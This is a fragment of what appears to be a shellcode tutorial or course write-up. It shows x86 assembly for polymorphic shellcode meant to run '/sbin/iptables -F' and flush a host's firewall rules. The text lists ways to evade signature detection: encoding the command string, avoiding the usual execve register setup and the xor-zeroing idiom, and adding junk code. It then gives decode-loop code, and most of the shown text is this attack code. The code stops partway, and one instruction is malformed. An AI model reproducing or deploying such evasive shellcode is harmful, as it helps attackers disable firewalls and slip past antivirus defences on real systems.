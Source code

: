 Polymorphism tricks will be:
  * Change the string '/sbin/iptables#-F#'
  * Do not put 0x0b into al which is known for calling execve
  * Do not use xor eax,eax (or others register)
  * Add junk code

## Polymorphism
"/sbin/iptables#-F#" become 0tcjo0jqubcmft#.G#

In order to decode the string a simple loop is used:
```ASM
main:
 pop esi
 mov ecx, eax ; Used for replace xor ecx, ecx
 xor ecx, eax ;
 mov cl, 17

decode:
 inc byte [esi], 1
 inc esi
 loop decode

 sub esi, 17
```

Let's move EXC into EAX to set EAX to zero and increment al as we decode the string.

```ASM
main:
 pop esi
 mov ecx, eax ; Used for not xor ecx, ecx
 xor ecx, eax ;
 mov eax, ecx
 mov cl, 17

decode:
 inc byte [esi], 1
 inc esi
 inc al
 loop decode
```

At the end AL is set to 17, in order to set it to 0xb (11) let's subtract 6 and add junk code. At the end of the decode loop, EAX is set. EAX/AL cannot be used as a null byte, but ECX/CL can.

```ASM
global _start			

section .text
_start:
	jmp	short	callme
main:
	pop	esi
	mov ecx, eax ; Used for not xor ecx, ecx
	xor ecx, eax ;
	mov eax, ecx
	mov cl, 17

decode:
	dec byte [esi]
	inc esi
	inc al
	loop decode

	sub esi, 17
	
```